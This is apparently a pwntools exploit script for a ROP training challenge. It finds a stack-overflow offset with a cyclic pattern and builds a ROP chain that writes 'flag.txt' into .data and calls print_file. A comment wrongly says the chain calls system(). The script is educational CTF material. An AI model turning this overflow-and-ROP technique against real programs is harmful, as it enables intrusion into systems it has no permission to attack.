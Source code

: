 ```python

##### FIND USEFUL ADDRESSES #####

# Locate the functions/strings we need - either do this manually or using pwntools

call_print_file = 0x0000000000400620
mov_qword_gadget = 0x0000000000400628
pop_rdi_gadget = 0x0000000000400693
pop_r14_gadget = 0x0000000000400690
datasection = 0x0000000000601028
flagtxtstr = 0x7478742E67616C66


# Print out the target address
info("%#x call print_file", call_print_file)
info("%#x mov QWORD PTR [r14],r15", mov_qword_gadget)
info("%#x pop rdi ; ret", pop_rdi_gadget)
info("%#x pop 14 ; pop r15 ; ret", pop_r14_gadget)
info("%#x writable .data section", datasection)
info("%#x flag.txt string", flagtxtstr)


##### FIND CRASH OVERWRITE RETURN ADDRESS OFFSET #####

# We will send a 'cyclic' pattern which overwrites the return address on the stack
payload = cyclic(100)

# Send cyclic pattern to crash it
io.sendlineafter('> ', payload)

# Wait for the process to crash
io.wait()

# Open up the corefile created after crash
core = io.corefile

stack = core.rsp
info("%#x stack", stack)

# Read four bytes from RSP, which will be some of our cyclic data.
# With this snippet of the pattern, we know the exact offset from
# the beginning of our controlled data to the return address.
pattern = core.read(stack, 4)
offset = cyclic_find(pattern)
info("%r pattern (offset: %r)", pattern, offset)

##### CRAFTING PAYLOAD #####

# Craft a new payload which puts system('/bin/cat flag.txt') at correct offset
# Note that we have to call pop_rdi gadget here

payload = b""
payload += b'A' * offset
payload += p64(pop_r14_gadget)
payload += p64(datasection)
payload += p64(flagtxtstr)
payload += p64(mov_qword_gadget)

payload += p64(pop_rdi_gadget)
payload += p64(datasection)
payload += p64(call_print_file)

print(payload)
```